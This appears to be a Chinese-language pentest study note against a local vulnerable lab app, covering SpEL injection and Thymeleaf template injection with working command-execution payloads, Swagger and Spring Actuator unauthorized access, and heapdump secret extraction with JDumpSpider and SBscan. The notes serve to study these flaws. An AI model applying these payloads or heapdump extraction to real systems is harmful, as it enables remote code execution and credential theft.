## SpEL（Spring Expression Language）

是Spring Framework中的一种表达式语言，它允许在运行时对对象图进行查询和操作。在应用程序中，如果使用不当，攻击者可以通过构造恶意输入来注入SpEL表达式，从而在表达式被解析时执行任意的命令，导致安全漏洞。

观察代码这里发生了运算


输入poc成功弹出计算器

```
T(java.lang.Runtime).getRuntime().exec("calc")
```




## SSTl

 SSTI（Server Side Template Injection）是指攻击者向Web应用程序的模板引擎注入恶意的模板语言代码，从而使得攻击者能够在服务端执行任意代码。这种攻击通常发生在Web应用程序使用模板引擎来动态生成页面内容的情况下，例如FreeMarker、Velocity、Thymeleaf等。

##### Thymeleaf模板注入

```
http://127.0.0.1:8888/vulnapi/SSTI/thymeleaf/vul?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%27calc%27).getInputStream()).next()%7d__::.x
```

## swagger未授权

 Swagger是一个规范和完整的框架，用于生成、描述、调用和可视化 RESTful 风格的 Web 服务，由于未开启页面访问限制或严格的Authorize认证导致接口信息泄漏。

利用扫描器Apifox



地址选用json  





如果以上的方法不行，就才行idm 下载 文件上传 到Apifox



另外一种 利用扫描器





## Actuator未授权访问

```
# 不安全的配置：Actuator设置全部暴露
management.endpoints.web.exposure.include=*
```

扫描器扫 Heapdump泄露泄露，druid jolokia等

下载文件



### 将文件放入 工具相同目录  Heapdump利用 JDumpSpider-1.1-SNAPSHOT-full



```
java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump
```



### 另外的工具 JDumpSpiderGUI-1.0-SNAPSHOT-full  

```
java -jar .\JDumpSpiderGUI-1.0-SNAPSHOT-full.jar --gui
```



### SBscan工具

```
E:\python3.8\python.exe sbscan.py -u http://127.0.0.1:8888/
```

```
E:\python3.8\python.exe sbscan.py -u http://127.0.0.1:8888/ -H "Cookie:xxxx"  //带cookie
```




### YYBaby  扫描SpingBoot

